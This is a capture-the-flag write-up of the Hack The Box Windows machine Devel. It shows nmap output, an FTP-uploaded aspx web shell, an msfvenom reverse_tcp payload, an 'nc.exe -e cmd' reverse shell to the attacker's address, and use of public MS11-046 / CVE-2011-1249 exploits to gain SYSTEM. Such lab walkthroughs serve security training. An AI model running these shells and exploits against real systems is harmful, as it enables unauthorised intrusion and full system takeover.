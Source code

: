 ```yaml
---
title: Devel HTB (English)
image: /assets/img/Anexos/Pasted%20image%2020250410152509-1.png
description: Devel HTB Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. 

### Machine Description

![](/assets/img/Anexos/Pasted%20image%2020250410191300-1.png)

- Name: Devel
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Devel](https://app.hackthebox.com/machines/3)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Devel.pdf)



## Reconnaissance

We start executing `nmap` in order to know the ports and services running in the machine.

```shell
nmap -sSCV --min-rate=5000 -p- --open -n -Pn 10.10.10.5 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-10 15:24 CEST
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap report us the ports _21_(ftp) and _80_(http). In this scenario ftp allows anonymouys login so let's connect. 


```shell
ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Once within ftp, we can see this files. This files seem to be from a web server. We confirm this watching this in the web:




![](/assets/img/Anexos/Pasted%20image%2020250410153112-1.png)

Curiously the main image has the same name as the ftp image so wen can start thinking that ftp is using the web directory.

As it's using IIS we must use a _.aspx_ in order to gain a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410154506-1.png)


## Explotation
I made the next payload using `msfvenom`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4  LPORT=4444 -f aspx >reverse.aspx
```


Then I upload it using ftp



![](/assets/img/Anexos/Pasted%20image%2020250410154021-1.png)

> This didn't work, when I finished the machine I realized it was because I should have used meterpreter xd, so I did it with:


I copy this _cmd.aspx_

```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Then I upload it 
```shell
ftp> put cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.000594 seconds (2.32 Mbytes/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-10-25  05:51PM                 1442 cmd.aspx
```

Now we have RCE. The next step is gaining a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410165207-1.png)


`nc` is not installed in Windows by default, so I just copy it from **seclist** and while I'm sharing the file using `impacket`, I execute it remotely using the `cmd.aspx` in order to get a reverse shell.
```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
```

```shell
\\10.10.16.4\smbFolder\nc.exe -e cmd 10.10.16.4 4444 
```


![](/assets/img/Anexos/Pasted%20image%2020250410165637-1.png)

## Privilage Escalation
Now I'm in, I run `systeminfo` to know if it can be vulnerable. 
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          10/4/2025, 2:09:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.292 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.373 MB
Virtual Memory: In Use:    768 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::4d6a:f8a6:c841:598a
                                 [03]: dead:beef::9556:9677:a8ff:c58e
                                 [04]: dead:beef::4d6a:f8a6:c841:598a

c:\windows\system32\inetsrv>wget
wget
'wget' is not recognized as an internal or external command,
operable program or batch file.
```

Searching in google I figure out this version is vulnerable. I use the next POC to exploit:

> https://github.com/n3rdh4x0r/CVE-2011-1249?tab=readme-ov-file

```shell
 wget https://raw.githubusercontent.com/n3rdh4x0r/CVE-2011-1249/refs/heads/main/40564.c
```

```shell
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```

Now I use `impacket` again to share it using smb.

![](/assets/img/Anexos/Pasted%20image%2020250410173202-1.png)

But didn't work lmao, so I changed to this one:

- https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/ms11-046.exe


```powershell
C:\Users\Public>copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
        1 file(s) copied.
```

```powershell
C:\Users\Public>.\virus.exe
.\virus.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```




